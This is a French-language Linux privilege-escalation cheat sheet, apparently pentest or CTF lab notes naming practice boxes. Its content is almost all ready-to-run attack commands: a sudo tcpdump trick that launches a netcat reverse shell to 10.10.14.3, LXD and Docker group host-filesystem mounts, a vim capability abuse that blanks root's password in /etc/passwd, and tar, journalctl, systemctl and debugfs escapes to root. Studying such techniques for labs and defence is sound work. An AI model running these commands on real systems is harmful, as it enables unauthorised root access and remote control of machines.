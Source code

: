### SUID/SGID Binaries
> Chercher des binaires avec bit SUID/SGID pour exécuter avec les privilèges du propriétaire

```bash
# Trouver les binaires SUID
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

# Trouver les binaires SGID
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
```
### Sudo Rights Abuse
> Exploiter les droits sudo mal configurés

```bash
# Vérifier les droits sudo
sudo -l

# Exemple: exploiter tcpdump avec sudo
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f" > /tmp/.test
chmod +x /tmp/.test
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```
### Privileged Groups
> Exploiter l'appartenance à des groupes privilégiés
#### LXC/LXD Group
```bash
# Vérifier si on est dans le groupe LXD
id

# Initialiser LXD
lxd init

# Importer une image Alpine
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine

# Créer un conteneur privilégié
lxc init alpine r00t -c security.privileged=true

# Monter le système de fichiers hôte
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true

# Démarrer le conteneur et obtenir un shell
lxc start r00t
lxc exec r00t /bin/sh
```
#### Docker Group
```bash
# Monter le système de fichiers hôte dans un conteneur Docker
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```
#### ADM Group
```bash
# Lire les logs pour trouver des informations sensibles
find /var/log -type f -exec grep -l "password" {} \;
```
### Capabilities
> Exploiter les capabilities Linux mal configurées

```bash
# Trouver les binaires avec capabilities
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \; 2>/dev/null

# Exploiter vim avec cap_dac_override
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
su root # Sans mot de passe
```

## Techniques d'élévation de privilèges Linux dans des Box
### Exploitation des droits SUID
Exemple (Image):
```bash
# Rechercher des binaires SUID
find / -perm -u=s -type f 2>/dev/null

# Exploiter un binaire SUID vulnérable
/usr/bin/base64 /root/proof.txt | base64 -d
```
### Exploitation des droits sudo
Exemple (Cockpit):
```bash
# Vérifier les droits sudo
sudo -l

# Exploiter tar avec sudo
sudo /usr/bin/tar -czvf /tmp/backup.tar.gz * --checkpoint=1 --checkpoint-action=exec=/bin/bash
```
Exemple (Jordak):
```bash
# Exploiter journalctl avec sudo
sudo /usr/bin/journalctl -n5 -unostromo.service
# Puis taper "!/bin/bash" quand less est lancé
```
Exemple (Scrutiny):
```bash
# Exploiter systemctl avec sudo
sudo systemctl
!sh
```
### Exploitation des droits de groupe
Exemple (Extplorer):
```bash
# Exploiter l'appartenance au groupe disk
debugfs /dev/mapper/ubuntu--vg-ubuntu--lv
cat /root/proof.txt
```